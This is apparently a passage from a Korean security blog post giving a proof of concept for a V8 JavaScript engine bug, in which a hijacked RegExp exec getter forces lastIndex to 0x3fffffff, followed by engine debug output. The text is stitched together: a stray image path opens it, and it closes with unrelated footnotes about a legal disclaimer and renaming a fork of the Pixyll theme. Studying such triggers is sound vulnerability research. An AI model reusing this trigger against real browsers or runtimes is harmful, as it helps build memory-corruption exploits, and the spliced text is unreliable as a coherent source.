 

### PoC 결과

위에서 언급한 조건들을 모두 만족하는 PoC 코드

```javascript
const str1 = 'aaa';
let count = 0;
let reli = new RegExp('', 'g');

let exec_ori = RegExp.prototype.exec;
let exec_wrapper = function() {
  let ret = exec_ori.apply(this, arguments);
  this.lastIndex = 0x3fffffff;
  return ret;
};
let exec_count = 0;
RegExp.prototype.__defineGetter__('exec', () => { 
  console.log('!!!!!!!!!?????????????'); 
  //reli.lastIndex = 1;
  exec_count += 1;
  //if (reli.lastIndex > 10000000) {
  if (exec_count >= 2) {
    %DebugPrint(reli.lastIndex);
    console.log("HEAP NUMBER !?????????????");
    %DebugPrint(reli);
    console.log("------------");
    console.log("SURVIVE!?");
    console.log(reli.lastIndex);
  }

  return exec_wrapper; 
});

console.log(str1.replace(reli, "F_F_"));
```

실행 결과

```
!!!!!!!!!?????????????
!!!!!!!!!?????????????
DebugPrint: 1073741824.0
0x1952080423d1: [Map] in ReadOnlySpace
 - type: HEAP_NUMBER_TYPE
 - instance size: 12
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - stable_map
 - back pointer: 0x1952080423b5 <undefined>
 - prototype_validity cell: 0
 - instance descriptors (own) #0: 0x1952080421c1 <Other heap object (STRONG_DESCRIPTOR_ARRAY_TYPE)>
 - prototype: 0x195208042235 <null>
 - constructor: 0x195208042235 <null>
 - dependent code: 0x1952080421b9 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0

HEAP NUMBER !?????????????
DebugPrint: 0x195208088a99: [JSRegExp]
 - map: 0x195208242a51 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x195208206d9d <Object map = 0x195208247141>
 - elements: 0x19520804222d <FixedArray[0]> [HOLEY_ELEMENTS]
 - data: 0x1952080896dd <FixedArray[12]>
 - source: 0x195208044a61 <String[4]: #(?:)>
```

[^1]: **Disclaimer**: This material is for informational purposes only, and should not be construed as legal advice or opinion.  For actual legal advice, you should consult with professional legal services.
[^2]: This list of privileges are derived from the four freedoms of "The Free Software Definition" published by the GNU project <https://www.gnu.org/philosophy/free-sw.en.html>.
[^3]: Using a different name from "Pixyll" for your derivate work helps avoid misdirected questions from people who are using your version.  It's similar to using version numbers to discrimate the revisions of software when troubleshooting issues.